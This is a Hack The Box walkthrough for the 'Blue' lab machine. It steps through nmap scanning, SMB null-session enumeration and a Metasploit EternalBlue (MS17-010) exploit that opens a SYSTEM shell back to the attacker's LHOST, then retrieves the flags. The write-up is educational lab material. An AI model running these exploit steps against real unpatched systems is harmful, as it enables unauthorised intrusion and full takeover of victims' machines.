 ```yaml
---
title: "Blue | HackTheBox Walkthrough"
date: 2025-06-010
categories:
  - htb               
header:
  teaser: /assets/images/htb/blue/blue.png
---
```


<img src="/assets/images/htb/blue/blue.png"
     alt="Alt text describing the image"
     class="align-center"      
     style="max-width: 600px;" />

# Overview
Blue is considered a beginner-friendly box on Hack The Box; its purpose was to teach a valuable lesson about how unpatched systems can become vulnerable. The EternalBlue exploit had severe implications worldwide and has been used in large-scale ransomware attacks. It targeted Windows Server Message Block (SMB) protocol, which is used for shared access to files, printers, and other network resources. Why was it so critical? Windows is one of the most widely used operating systems globally, and this exploit, which leveraged the SMBv1 bug, enabled remote code execution attacks on the target system. 

---

## Full Port Scan and Initial Enumeration

I kicked off with a full TCP port scan using aggressive timing to identify open services quickly.

---

```bash
nmap -sCV -p- <ip> --min-rate=1000 --min-parallelism=1000 -v
```

**Key Flags:**
- `-sC`: runs default Nmap scripts
- `-sV`: enables version detection
- `-p-`: Scans all 65535 ports
- `--min-rate=1000`: sends packets faster than the default rate.
- `--min-parallelism=1000`: sends probes in parallel for speed.

> i only use `--min-rate` and `--min-parallelism` in CTF environments to speed up discovery.

![](/assets/images/htb/blue/1enum.png)
---

## SMB Enumeration and Null Session Access

After seeing ports `139` and `445` open, I decided to check for unauthenticated SMB Access:

```bash
smbclient -L \\\\ip\\ -N
```

**Key Flags:**
- `-L`: This option allows you to list the existing shares.
- `-N`: Allows us to try and connect to SMB without credentials (Null Session)  

This tests for null session access, and it worked! I was able to list all the available shares for us.
To further enumerate share permissions, I ran:

```bash
nmap <ip> -p 445 --script=smb-enum-shares
```
This confirmed that several shares are readable and that SMBv1 was active. This is generally a red flag on older Windows systems due to its easy exploitation.

---

## Finding The Vulnerability: MS17-010

From our Nmap scan, we can see that the target is running Windows 7 Pro, and SMBv1 is enabled. After a quick Google search for `Windows 7 Professional 7601 vulnerability`, we were met with several pages, including Microsoft talking about MS17-010, which is the EternalBlue exploit, which was a remote code execution vulnerability.

---

## Exploiting EternalBlue with Metasploit

```bash
msfconsole
search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
```
Instead of typing the whole exploit path, as I just showed, we could also use the corresponding number. In my case, it was 0

After this, I set up the required options by typing 'options' and filling in the RHOST, LHOST, and LPORT fields.

**key Flags**
- `RHOST`: is the remote host, which in our case is the HTB IP.
- `LHOST` is for our local host.
- `LPORT`: is for the port we want to use

```bash
set RHOST 10.129.13.80
set LHOST <OUR  IP>
set LPORT 4444 # or whichever port you would like to use
```

I ran `check` to verify if the host was vulnerable, and metasploit did confirm it.

```bash
check
```
After confirmation, I typed 'run' and the exploit executed. Once we see `meterpreter>` we can type shell to get a shell and we are in as system!

```bash
run
shell
```

---

## Post-Exploitation and Flags

With full system access I was able to retrieve the user and root flags by going through Haris' folder and administrator.
Both flags reside on the desktop of each user.

```bash
cd C:\Users
dir

cd Haris\Desktop
type user.txt

cd ..\Administrator\Desktop
type root.txt
```

Flags obtained:

- `user.txt`: ✔️  
- `root.txt`: ✔️

---

## Key Takeaways
- Always check for null sessions when SMB is open
SMBv1 is still in use and can be easily exploited, as we have demonstrated.
- Always use multiple tools! In our case, we did use smbclient with nmap to get a better picture early on.

---


